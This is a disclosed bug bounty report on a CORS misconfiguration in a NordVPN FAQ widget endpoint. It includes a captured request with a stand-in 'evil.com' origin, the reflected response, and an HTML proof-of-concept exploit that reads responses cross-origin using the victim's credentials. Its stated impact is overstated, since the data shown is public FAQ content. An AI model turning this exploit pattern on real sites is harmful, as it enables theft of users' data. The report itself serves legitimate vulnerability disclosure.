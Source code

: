 # Cross Origin Resource Sharing Misconfiguration | Lead to sensitive information

## Report Details
- **Report ID**: 796557
- **URL**: https://hackerone.com/reports/796557
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-14T11:26:49.981Z
- **Disclosed**: 2020-02-21T11:28:27.817Z

## Reporter
- **Username**: hridoy-ahmed
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
Summary:

Cross Origin Resource Sharing Misconfiguration | Lead to sensitive information.
Description:

An HTML5 cross-origin resource sharing (CORS) policy controls whether and how content running on other domains can perform two-way interaction with the domain that publishes the policy. The policy is fine-grained and can apply access controls per-request based on the URL and other features of the request.
Trusting arbitrary origins effectively disables the same-origin policy, allowing two-way interaction by third-party web sites. Unless the response consists only of unprotected public content, this policy is likely to present a security risk.
If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

Platform(s) Affected: [website]

*.nordvpncom
Steps To Reproduce:
Proof Of Concept 1:
When you get login ucp.nordvpn.com then check burpsuite httphistory there you get this api endpoint.
Request:
GET /~nordvpn/api/widget/v1/faqs?format=json&widgetType=float&account=nordvpn&configId=1047377312&referer=https%3A%2F%2Fucp.nordvpn.com%2Flogin%2F HTTP/1.1
Host: nordvpn.nanorep.co
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ucp.nordvpn.com/login/
Origin: https://evil.com
Connection: close
Cookie: u=v2,EU1,1DB7B8D10F64D9D7; bc.visitor_token=6633999527576281088; 3E6DB64A=cv_4#t_ED5D8790E#v_2#lv_ED5D87681#a_ED5D85839#e_00000000

Response:
HTTP/1.1 200 Ok
Server: nanoRepServer
Date: Fri, 14 Feb 2020 11:19:39 GMT
Content-type: application/json;charset=utf-8
Content-Length: 1278
X-XSS-Protection: 1; mode=block
ETag: "8D7B13ADC1074A0Nordvpn_3E6DB64A_domain_3E6DB5A0_Float_"
Pragma: no-cache
Vary: Origin
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
Expires: Thu, 09 Jan 2020 07:35:14 GMT
Connection: close
X-Content-Type-Options: nosniff

[{ "title": "", "behavior": 7, "data": [{ "id": 0, "data": [] }]}, { "title": "FAQ", "behavior": 7, "data": [{ "id": 0, "data": [{ "label": "Connecting from a country with internet restrictions","data": 69566,"objectId": "1047408742","count": 0,"percent": 7.44, "likes": 13281, "titleAndBodyHash": -41996297,"visibility":639},{ "label": "How to securely watch Netflix with NordVPN?","data": 26765,"objectId": "1047407532","count": 0,"percent": 2.86, "likes": 12456, "titleAndBodyHash": -489098654,"visibility":639},{ "label": "Installing and using NordVPN on Debian, Ubuntu, and Linux Mint","data": 26268,"objectId": "1325531132","count": 0,"percent": 2.81, "likes": 2150, "titleAndBodyHash": -403967674,"visibility":767},{ "label": "What is your money-back policy?","data": 24180,"objectId": "1047407702","count": 0,"percent": 2.59, "likes": 7983, "titleAndBodyHash": 1032988019,"visibility":639},{ "label": "Connecting from a country with internet restrictions","data": 24130,"objectId": "1161220812","count": 0,"percent": 2.58, "likes": 1482, "titleAndBodyHash": -1869781525,"visibility":639},{ "label": "Setting up a router with NordVPN","data": 20777,"objectId": "1047409322","count": 0,"percent": 2.22, "likes": 8849, "titleAndBodyHash": -257303784,"visibility":639}] }]}]


POC 2(save this as .html file and open you see my account details )

<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://nordvpn.nanorep.co/~nordvpn/api/widget/v1/faqs?format=json&widgetType=float&account=nordvpn&configId=1047377312&referer=https%3A%2F%2Fucp.nordvpn.com%2Flogin%2F", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS PoC Exploit </h2>
      <h3>created by <a href="https://facebook.com/hridoyahmedhridu">@Hridoy</a></h3>
      <h3>Show full content of page</h3>
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>

How to fix:

Rather than using a wildcard or programmatically verifying supplied origins, use a whitelist of trusted domains.

Reference:
https://hackerone.com/reports/426165
https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/

## Impact

Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server.

If the site specifies the header Access-Control-Allow-Credentials: true, third-party sites may be able to carry out privileged actions and retrieve sensitive information. Even if it does not, attackers may be able to bypass any IP-based access controls by proxying through users' browsers.

## Attachments
- Kazam_screenshot_00024.png
